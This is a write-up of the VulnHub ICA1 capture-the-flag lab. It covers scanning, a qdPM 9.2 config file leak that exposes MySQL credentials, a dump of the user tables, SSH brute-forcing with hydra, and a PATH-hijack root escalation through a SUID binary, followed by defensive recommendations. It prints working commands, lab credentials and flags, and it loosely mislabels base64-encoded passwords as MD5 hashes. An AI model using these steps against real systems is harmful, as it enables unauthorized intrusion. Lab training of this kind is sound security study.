# ICA1 CTF Walkthrough
 
This document covers the **ICA1** virtual machine from the penetration testing practice platform [**VulnHub**](https://www.vulnhub.com/entry/ica-1,748/), created by **"onurturali"**, designed for training in network reliability testing and privilege escalation.
 
---
 
## Step-by-Step Walkthrough
 
### Step 1: Discovering the Target Machine's IP Address
 
```sh
sudo netdiscover -r 192.168.56.109/24
```
 
---
 
### Step 2: Scanning Open Ports and Available Services
 
At this step we identify the services available on the system and their versions.
We use `nmap` to scan the obtained IP address for **open ports** and **running services**.
We use the command with the **--top-ports -A -sV -P** flags to perform an aggressive scan.
 
```sh
nmap -sC -sV -p- 192.168.56.109
```
 
**Result**:
 

 
---
 
### Step 3: Exploring Accessibility via Port 80
 
Let's view the hosted web page. Open a web browser and enter **192.168.56.109:80** in the address bar.
 
**Result**:
In the browser we found a login page running **qdPM 9.2**.

 
This login page could be brute-forced.
However, that would take a significant amount of time.
 
Let's run a command to search for subdirectories:
 
```sh
dirb 192.168.56.109
```
 

 
**Result**
The `/core` folder contains a description of a Symphony project deployed locally.
The `/batch` folder contains a file `backups.php`, but it cannot be loaded or opened.
 
Let's search for known vulnerabilities for **qdPM 9.2** on **Exploit-DB**:
 
```sh
searchsploit qdPM 9.2.
```
 
**Result**:
We found a set of instructions describing the steps required to exploit the vulnerability.
 

 

 
Navigate to the path specified in the file:
 
http://192.168.56.109 **/core/config/databases.yml**
 

 
or
 
Find the location of the file **50176.txt**.
 
```sh
sudo find / -name 50176.txt
 
cat /usr/share/exploitdb/exploits/php/webapps/50176.txt
```
 
**Result**:
The file **50176.txt** is located in the folder **/usr/share/exploitdb/exploits/php/webapps/**.

 
**Result**:
We obtained information related to a potential vulnerability in the system.
 
```text
      username: qdpmadmin
      password: UcVQCMQk2STVeS6J
```
 
---
 
### Step 4: Downloading and Examining the YAML File for Database Access
 
In the previous step, we found the path to the file **databases.yml** over **http**, containing potential information for database access.
Let's download the file **databases.yml** for further analysis using the `wget` command:
 
```sh
wget http://192.168.56.109/core/config/databases.yml
```
 
---
 
### Step 5: Accessing the MySQL Server and Exploring Web User Accounts
 
Let's use the credentials obtained in the previous step to establish a connection with the previously identified MySQL server.
To connect to the database we'll use the console client with the user **qdpmadmin** and password **UcVQCMQk2STVeS6J**.
To avoid a **TLS/SSL** certificate error, add the `--skip-ssl` flag:
 
```sh
mysql -u qdpmadmin -h 192.168.56.109 --password='UcVQCMQk2STVeS6J' --skip-ssl
```
 
**Result**:
We connected to the **MySQL** server.
 
Let's list the databases.
In the **MySQL** console run:
 
```sh
SHOW DATABASES;
```
 
**Result**:
We obtained the list of databases on the **MySQL** server.
 

 
Let's focus on the **staff** database and list its tables.
Run the commands:
 
```sh
use staff;
 
show tables;
```
 
**Result**:
We obtained the list of tables in the **staff** database.
The **user** and **login** tables may contain user data.
Let's display the contents of the tables. Run:
 
```sh
select * from user;
 
select * from login;
```
 
**Result**:
From the **user** table we obtained usernames and their roles.
The **login** table contains user passwords hashed with the MD5 algorithm.
 

 
---
 
### Step 6: Preparing the List of Users and Hashed Passwords on the Kali Machine
 
Let's save the list of usernames to the file **user.txt**, and the list of hashed passwords to **passwords.txt**.
First, we'll dump the contents of the **user** and **login** tables from the **staff** database.
We'll use the `mysqldump` command on the **Kali Linux** side with the following parameters:
- `-h` — the remote host's IP address;
- `-u` — the username;
- `--password=` 'the user's password';
- the `--skip-ssl` flag to avoid a **TLS/SSL** certificate error;
- the **staff** database;
- the specified table;
- and output redirection via `> filename`.
Let's exit the MySQL console and save the contents of the **user** table to **user.txt**, and the contents of the **login** table to **pass.txt**.
 
```sh
exit
mysqldump -h 192.168.56.109 -u qdpmadmin --password='UcVQCMQk2STVeS6J' --skip-ssl staff user > user.txt
 
mysqldump -h 192.168.56.109 -u qdpmadmin --password='UcVQCMQk2STVeS6J' --skip-ssl staff login > pass.txt
 
ls -al u*
```
 
### Step 7: Analyzing the Hashed Passwords
 
First we need to understand what we obtained in the **pass.txt** file.
The file contains a list of hashed passwords. Let's display its content again:
 
```sh
c3VSSkFkR3dMcDhkeTNyRg==
N1p3VjRxdGc0MmNtVVhHWA==
WDdNUWtQM1cyOWZld0hkQw==
REpjZVZ5OThXMjhZN3dMZw==
Y3FObkJXQ0J5UzJEdUpTeQ==
```
 
**Hashcat** has no built-in capability for automatic hash-type identification.
To figure out which hash mode (`-m`) we need, the hash can be analyzed with dedicated identification tools, reference guides, or online services.
 
Using the `-m` option, let's pass one of our strings to the **hashid** utility.
 
```sh
hashid -m pass.txt
```
 
**Result**:
The utility could not identify this token. Indeed, it looks non-standard — it contains 24 characters and ends with two equals signs.
 

 
Let's use the web service **Cyberchef**:
 
**Result**:
We obtained 16-character hash codes of the database users' passwords.

 
Let's display the contents of the **pass1.txt** file again:
 
```sh
suRJAdGwLp8dy3rF
7ZwV4qtg42cmUXGX
X7MQkP3W29fewHdC
DJceVy98W28Y7wLg
cqNnBWCByS2DuJSy
```
 
### Step 8: Cracking the User Passwords
 
Let's fix the content of **user.txt** by converting all characters to lowercase.
 
```sh
sed -i 's/.*/\L&/' user.txt
```
 
Next, we'll try to use the obtained usernames and encoded passwords to run a brute-force attack against the SSH service running on port 22.
For this, we'll use the `hydra` command.
 
```sh
hydra -L user.txt -P pass1.txt -f 192.168.56.109 ssh
```
 
**Result**:
The **hydra** utility cracked the hashes for users **travis** and **dexter**:
 

 
```sh
login: travis   password: DJceVy98W28Y7wLg
login: dexter   password: 7ZwV4qtg42cmUXGX
```
 
---
 
### Step 9: Exploring the travis and dexter User Profiles
 
Using the obtained credentials, let's try to log into the target machine via the **ssh** protocol.
 
First, let's use the credentials for user **travis**.
Run the `ssh` command and enter the password `DJceVy98W28Y7wLg`.
Let's list the files and folders in the **travis** user's profile.
 
```sh
ssh travis@192.168.56.109
ls -al
cat user.txt
```
 

 
```text
ICA{Secret_Project}
```
 
**Result**:
We logged into the target machine as user **travis**.
We didn't find anything of note in the **travis** account.
 
Next, let's connect to the machine using the credentials for user **dexter**.
We'll use `7ZwV4qtg42cmUXGX` as the password and list the files in the profile.
 
```sh
ssh dexter@192.168.56.109
ls -al
```
 

 
**Result**:
We logged into the target machine as user **dexter**.
In the Dexter user's profile we found an interesting file, **note.txt**.
 

 
**Result**:
In the Dexter user's profile we found the interesting file **note.txt**, whose contents gave us useful information that we can use going forward.

 
---
 
### Step 10: Exploring Potential Privilege Escalation Paths
 
Let's use the `find` command to search for files that have the `SUID` bit set and are owned by `root`.
We'll search the entire filesystem, starting from the root directory `/`.
 
```sh
find / -perm -4000 -type f -exec ls -al {} 2>/dev/null \;
```
 
**Result**:
We obtained a list of files with the `setuid` bit set, owned by `root`.
 

 
As we can see from the search results, the first file, **/opt/get_access**, is not a typical operating system file or directory.
This makes it stand out. Let's try running this file.
 
```sh
/opt/get_access
```
 

 
Let's use the `strings` command to extract the text/character sequences embedded in the binary file.
These character sequences can give us insight into the functionality or purpose of the binary and reveal hardcoded values and configuration parameters.
 
```sh
strings /opt/get_access
```
 
**Result**:
We noticed an unusual string in the system output: **cat /root/system_info**.
So we can try to use this command.
 

 
---
 
### Step 11: Taking Control of the System
 
To exploit the discovered vulnerability, let's create our own executable file called **cat**, for example in the **/tmp** folder.
Next, let's create a script file that will launch **bash**.
Run the commands:
 
```sh
cd /tmp
echo '#!/bin/bash' > cat
echo '/bin/bash -p' >> cat
chmod +x cat
export PATH=/tmp:$PATH
/opt/get_access
```
 
**Result**:
This command launched a new **bash** shell with **root** privileges.
We gained access to the entire system and can perform any action.
We have effectively taken ownership of this system.
 

 
**Final flag obtained! CTF complete!**
 
```sh
cd /root
ls -la
nano root.txt
```
 
**Result**:
```text
ICA{Next_Generation_Self_Renewable_Genetics}
```
 
---
 
## Recommendations
 
1. Enforce strong password policies:
   - Use complex, unique passwords for all accounts.
   - Implement multi-factor authentication to reduce the risk of credential-based attacks.
2. Don't store sensitive data on the target system:
   - Ensure sensitive files are stored and encrypted securely.
   - Avoid placing sensitive files in publicly accessible web directories.
   - Don't store sensitive data as comments in text files or HTML resources.
3. Restrict access to management interfaces:
   - Restrict `sudo` access and always require a password prompt.
   - Enforce restrictions on users logging into each other via SSH.
4. Conduct regular security audits:
   - Perform regular security assessments to identify and mitigate vulnerabilities.
   - Pay special attention to those related to privilege escalation.
   - Review and limit `sudo` privileges to the necessary minimum.
5. Implement proper logging and monitoring:
   - Enable comprehensive logging and monitoring across the entire system.
   - Detect suspicious activity, such as unauthorized file access or privilege escalation attempts.
 
---
 
## Conclusion
 
- In this step-by-step guide, we successfully gained full access to the target machine **ICA1** by exploring various vulnerabilities and exploitation methods.
- We covered key tasks such as discovering and exploiting system weaknesses, using privilege escalation techniques, and achieving full compromise.
- This exercise highlights the importance of protecting sensitive files, enforcing strict password policies, and regularly auditing system configurations to prevent unauthorized access.
- By following the steps described, you should now have a clear understanding of how to solve similar problems, as well as how to apply the tools and techniques used in this process.
- This experience will not only strengthen your penetration testing skills but also prepare you for more complex scenarios.
- Following the stated recommendations can significantly reduce the risk of the described vulnerabilities being exploited in real-world environments.
**What was accomplished?**
✔️ Identified the target machine's IP address.
✔️ Scanned ports and services.
✔️ Explored **HTTP services**.
✔️ Gained access to the **MySQL** server.
✔️ Explored web user accounts.
✔️ Prepared a wordlist file.
✔️ Reviewed hash-cracking methods.
✔️ Cracked the passwords of users travis and dexter.
✔️ Obtained **shell access** via the **SSH** protocol.
✔️ Explored the travis and dexter user accounts.
✔️ Found a path for privilege escalation.
✔️ Obtained **root access** to the target system.